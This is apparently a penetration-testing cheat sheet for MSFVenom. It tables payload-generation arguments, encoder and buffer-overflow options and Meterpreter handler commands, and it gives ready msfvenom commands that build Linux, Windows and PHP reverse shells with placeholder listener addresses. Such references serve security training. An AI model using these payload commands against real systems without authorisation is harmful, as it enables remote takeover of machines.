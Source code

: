 # MSFVenom

## Payload Generation

> ### Arguments
>
> |       Argument       |     Usage      |            Options            |
> | :------------------: | :------------: | :---------------------------: |
> |     List Modules     |       -l       |          moduletype           |
> | List Payload Options | --list-options |                               |
> |       Payload        |       -p       |            payload            |
> |       Host IP        |     LHOST=     |              IP               |
> |   Host Listen Port   |     LPORT=     |             port              |
> |        Format        |       -f       |            format             |
> |    Output to File    |       -o       |           filename            |
> |        Encode        |       -e       |        shikata_ga_nai         |
> |  Encoder Iterations  |       -i       |         iterationsnum         |
> |    Exit Function     |   EXITFUNC=    |   thread (buffer overflow)    |
> |    Bad Characters    |       -b       |  charlist (buffer overflow)   |
> |       NOPsled        |       -n       |  noplength (buffer overflow)  |
> |  Max Payload Space   |       -s       | payloadsize (buffer overflow) |
>
> ### List Options/Common Options
>
> | Argument |                                                             List Options/Common Options                                                              |
> | :------: | :--------------------------------------------------------------------------------------------------------------------------------------------------: |
> | Modules  |                                             payloads, encoders, nops, platforms, archs, encrypt, formats                                             |
> | Payloads | linux/\<arch>/\<payload>, windows/\<arch>/\<payload> - [full list](https://medium.com/@hannahsuarez/full-list-of-546-msfvenom-payloads-39adb4d793c9) |
> | Formats  |                                            raw (default), exe, msi, elf, war : run `-l formats' for more                                             |
>
> ### Meterpreter
>
> |  Staged Payload (requires special listener)   |   Unstaged Payload    |
> | :-------------------------------------------: | :-------------------: |
> | linux/x64/meterpreter_reverse_tcp/reverse_tcp | linux/x64/reverse_tcp |
>
> |   Meterpreter   |          Command          |
> | :-------------: | :-----------------------: |
> |   Use handler   | use exploit/multi/handler |
> |   Set Payload   |  set PAYLOAD \<payload>   |
> | Set Remote Host |     Set RHOST <rhost>     |
> | Set Listen Host |     set LHOST <lhost>     |
> | Set Listen Port |     set LPORT <lport>     |
>
> ### Usage Examples
>
> - Linux Reverse Shell: `msfvenom -p linux/x64/shell_reverse_tcp LHOST=<Lhost> LPORT=<lport> -f elf -o shell.elf`
> - Windows Reverse Shell: `msfvenom -p windows/shell_reverse_tcp LHOST=<Lhost> LPORT=<lport> -f exe -o shell.exe`
> - PHP Reverse Shell: `msfvenom -p php/reverse_php LHOST=<Lhost> LPORT=<lport> -o shell.php`

> ### GUI
>
> - [Setup](https://www.offensive-security.com/metasploit-unleashed/msf-community-edition/)

## Cheatsheets

> - [rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom)
> - [SANS](https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf)
> - [frizb/MSF-Venom-Cheatsheet](https://github.com/frizb/MSF-Venom-Cheatsheet)
> - [Redteamtutorials.com](https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/)
> - [Netsec.ws](https://netsec.ws/?p=331)
> - [Infinitelogins.com](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)
> - [Thedarksource.com](https://thedarksource.com/msfvenom-cheat-sheet-create-metasploit-payloads/)
